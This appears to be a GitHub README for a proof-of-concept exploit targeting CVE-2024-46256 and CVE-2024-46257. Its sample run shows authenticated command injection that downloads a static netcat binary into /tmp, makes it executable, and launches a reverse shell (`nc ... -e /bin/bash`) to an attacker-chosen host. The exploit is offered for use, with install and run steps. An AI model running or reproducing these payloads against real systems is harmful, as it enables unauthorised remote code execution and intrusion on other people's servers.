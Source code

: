 # POC_CVE-2024-46256

_CVE-2024-46256 and CVE-2024-46257 is the same POC, just change the provider param._
---
# Note

Sometimes the nc file can't execute on the server or can't execute command!
---
# Install require

```html
pip install requests
```

# Run Exploit

```html
python3 POC_CVE-2024-46256.py

[+] Target type (IP/Host)? (i/h): i
[+] Enter IP or Host: {IP/HOST}
[+] Enter Port: {PORT}
[+] Enter username: {USERNAME}
[+] Enter password: {PASS}
[+] Token obtained: {token auto get}
[+] Sending payload: curl https://raw.githubusercontent.com/yunchih/static-binaries/master/nc -o /tmp/nc
[+] Command executed: curl https://raw.githubusercontent.com/yunchih/static-binaries/master/nc -o /tmp/nc
[+] Sending payload: chmod +x /tmp/nc
[+] Command executed: chmod +x /tmp/nc
[+] Target is vulnerable!
[+] Proceed with reverse shell? (y/n): y
[+] Enter reverse shell IP: {Rev server}
[+] Enter reverse shell port: {Rev port}
[+] Command executed: /tmp/nc {Rev server} {Rev port} -e /bin/bash
[+] Reverse shell command executed!
```

